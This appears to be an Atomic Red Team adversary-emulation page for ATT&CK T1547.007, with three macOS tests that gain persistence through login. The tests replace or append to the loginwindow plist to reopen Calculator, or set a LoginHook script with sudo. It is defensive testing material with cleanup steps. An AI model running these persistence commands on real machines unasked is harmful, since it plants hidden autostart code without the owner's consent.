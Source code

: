 # T1547.007 - Boot or Logon Autostart Execution: Re-opened Applications

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1547/007)

<blockquote>Adversaries may modify plist files to automatically run an application when a user logs in. When a user logs out or restarts via the macOS Graphical User Interface (GUI), a prompt is provided to the user with a checkbox to "Reopen windows when logging back in".(Citation: Re-Open windows on Mac) When selected, all applications currently open are added to a property list file named <code>com.apple.loginwindow.[UUID].plist</code> within the <code>~/Library/Preferences/ByHost</code> directory.(Citation: Methods of Mac Malware Persistence)(Citation: Wardle Persistence Chapter) Applications listed in this file are automatically reopened upon the user’s next logon.

Adversaries can establish [Persistence](https://attack.mitre.org/tactics/TA0003) by adding a malicious application path to the <code>com.apple.loginwindow.[UUID].plist</code> file to execute payloads when a user logs in.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Copy in loginwindow.plist for Re-Opened Applications](#atomic-test-1---copy-in-loginwindowplist-for-re-opened-applications)

- [Atomic Test #2 - Re-Opened Applications using LoginHook](#atomic-test-2---re-opened-applications-using-loginhook)

- [Atomic Test #3 - Append to existing loginwindow for Re-Opened Applications](#atomic-test-3---append-to-existing-loginwindow-for-re-opened-applications)

<br/>

## Atomic Test #1 - Copy in loginwindow.plist for Re-Opened Applications

Copy in new loginwindow.plist to launch Calculator.

**Supported Platforms:** macOS

**auto_generated_guid:** 5fefd767-ef54-4ac6-84d3-751ab85e8aba

#### Inputs:

| Name            | Description                                        | Type | Default Value                                                   |
| --------------- | -------------------------------------------------- | ---- | --------------------------------------------------------------- |
| calc_plist_path | path to binary plist with entry to open calculator | path | PathToAtomicsFolder/T1547.007/src/reopen_loginwindow_calc.plist |

#### Attack Commands: Run with `sh`!

```sh
cp #{calc_plist_path} ~/Library/Preferences/ByHost/com.apple.loginwindow.plist
```

#### Cleanup Commands:

```sh
rm -f ~/Library/Preferences/ByHost/com.apple.loginwindow.plist
```

<br/>
<br/>

## Atomic Test #2 - Re-Opened Applications using LoginHook

Mac Defaults

[Reference](https://developer.apple.com/library/content/documentation/MacOSX/Conceptual/BPSystemStartup/Chapters/CustomLogin.html)

**Supported Platforms:** macOS

**auto_generated_guid:** 5f5b71da-e03f-42e7-ac98-d63f9e0465cb

#### Inputs:

| Name   | Description    | Type | Default Value   |
| ------ | -------------- | ---- | --------------- |
| script | path to script | path | /path/to/script |

#### Attack Commands: Run with `sh`! Elevation Required (e.g. root or admin)

```sh
sudo defaults write com.apple.loginwindow LoginHook #{script}
```

#### Cleanup Commands:

```sh
sudo defaults delete com.apple.loginwindow LoginHook
```

<br/>
<br/>

## Atomic Test #3 - Append to existing loginwindow for Re-Opened Applications

Appends an entry to launch Calculator hidden loginwindow.\*.plist for next login.
Note that the change may not result in the added Calculator program launching on next user login.
It may depend on which version of macOS you are running on.

**Supported Platforms:** macOS

**auto_generated_guid:** 766b6c3c-9353-4033-8b7e-38b309fa3a93

#### Inputs:

| Name             | Description                 | Type | Default Value                                                 |
| ---------------- | --------------------------- | ---- | ------------------------------------------------------------- |
| objc_source_path | path to objective C program | path | PathToAtomicsFolder/T1547.007/src/append_reopen_loginwindow.m |
| exe_path         | path to compiled program    | path | /tmp/t1547007_append_exe                                      |

#### Attack Commands: Run with `sh`!

```sh
FILE=`find ~/Library/Preferences/ByHost/com.apple.loginwindow.*.plist -type f | head -1`
if [ -z "${FILE}" ] ; then echo "No loginwindow plist file found" && exit 1 ; fi
echo save backup copy to /tmp/
cp ${FILE} /tmp/t1547007_loginwindow-backup.plist
echo before
plutil -p ${FILE}
echo overwriting...
#{exe_path} ${FILE} && echo after && plutil -p ${FILE}
```

#### Cleanup Commands:

```sh
rm -f #{exe_path}
# revert to backup copy
FILE=`find ~/Library/Preferences/ByHost/com.apple.loginwindow.*.plist -type f | head -1`
if [ -z "${FILE}" ] ; then
   exit 0
fi
mv /tmp/t1547007_loginwindow-backup.plist ${FILE}
```

#### Dependencies: Run with `bash`!

##### Description: compile C program

##### Check Prereq Commands:

```bash
if [ -f "#{exe_path}" ]; then exit 0 ; else exit 1; fi
```

##### Get Prereq Commands:

```bash
cc #{objc_source_path} -o #{exe_path} -framework Cocoa
```

<br/>
